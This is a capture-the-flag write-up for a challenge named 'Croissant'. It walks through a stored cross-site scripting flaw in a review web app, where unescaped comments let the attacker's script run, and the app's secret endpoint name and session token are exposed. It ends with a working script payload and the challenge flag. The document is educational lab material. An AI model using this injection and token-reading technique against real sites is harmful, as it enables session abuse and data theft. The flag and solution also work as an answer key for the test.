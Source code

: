 # Croissant

A play on words: Croissant is a hint that the solution involved **XSS (Cross-Site-Scripting)**.

## Context

This is the main page

![Main page](assets/main-page.png)

And you can add reviews

![Add review](assets/add-review.png)

You can find the code released to help competitors in `dist/`

## Solution

### 1. Identify that comments are not being escaped

This should also clue you into using `comments` as the attack vector.

```html
<p class="mb-2">
  {{ review.comment | safe }}
</p>
```

### 2. Identify that the endpoint providing the flag is dynamically generated

This means that a brute-force attack to find the endpoint
is not going to be a good idea.

```py
ENDPOINT: str = f"/api/{secrets.token_urlsafe(64)}"

@app.get(ENDPOINT)
def get_flag():
    if "cookie" not in request.cookies:
        return {
            "message": "Hey!! What about my chocolate chip cookies?!",
            "status": 403,
        }, 403

    validate_token()
    return FLAG
```

### 3. Identify that the endpoint is formatted into comments

```py
newReview = CroissantReview(
    rating=int(rating),
    comment=cast(str, comment).replace("endpoint", ENDPOINT, 1),
)
reviews.append(newReview)
save(newReview)
```

Great! This means the first `endpoint` in the comment will be replaced
by the endpoint, and our payload should contain `endpoint` somewhere.

### 4. Identify that we need session token and cookie to access the endpoint

```py
def get_flag():
    if "cookie" not in request.cookies:
        return {
            "message": "Hey!! What about my chocolate chip cookies?!",
            "status": 403,
        }, 403

    validate_token()
    return FLAG
```

### 5. We do not need to explicitly pass the cookie

Based on how samesite requests work,
the cookie will be automatically passed to the endpoint.

### 6. Getting the session token

We can see that the token is added to the HTML as an `data-token` attribute.

```py
resp = make_response(
    render_template("index.html", reviews=reviews, token=session["token"])
)
```

```html
<div class="flex justify-end">
  <button type="button" class="bg-gray-500 text-white px-4 py-2 rounded mr-2" onclick="closeModal()">Cancel</button>
  <button
    id="submit"
    type="submit"
    class="bg-blue-500 text-white px-4 py-2 rounded"
    data-token="{{ token }}"
  >Submit</button>
</div>
```

We can get this programatically with javascript

```js
document.getElementById('submit').getAttribute('data-token')
```

### 7. Send the payload

Putting everything together, the payload we craft in `comment` becomes this:

```js
<script>
window.onload = () => {
    fetch('endpoint', {
        method: 'GET',
        headers: {
            'X-Requested-With': 'XMLHttpRequest',
            'X-Token': document.getElementById('submit').getAttribute('data-token')
        }
    })
      .then(res => res.text())
      .then(flag => alert(flag));
}
</script>
```

### 8. Solved

Flag: `NYP{wH4t4cRossAcRo!s5An7}`
